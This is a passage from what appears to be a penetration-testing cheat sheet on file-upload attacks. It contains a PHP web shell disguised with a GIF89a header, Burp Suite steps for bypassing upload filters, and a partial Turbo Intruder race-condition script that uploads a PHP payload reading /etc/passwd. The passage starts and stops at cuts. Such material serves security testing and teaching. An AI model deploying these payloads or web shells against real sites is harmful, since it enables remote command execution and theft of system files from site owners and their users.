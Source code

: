 **GIF89a** is the same, but also includes transparancy and animation capabilities.

```php
GIF89a
<?php echo system($_GET['cmd']); ?>
```

Regarding GIF87a and GIF89a, refer to [this post](https://docstore.mik.ua/orelly/web2/wdesign/ch19_01.htm).

### Bypass the Filter (Client-Side & Server-Side)

If the target website uses filter JavaScript around file uploading, you may be able to bypass it by using Burp Suite.

```sh
On Burp Suite, click "Proxy" tab and "Options".

# Client-Side
1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
2. The popup will open.
3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

# Server-Side
1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

# ----------------------------------------------

1. Turn the intercept on.
2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
3. If you found the filtering file (.js), drop it.
```

### Race Conditions using Turbo Intruder

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                        concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

```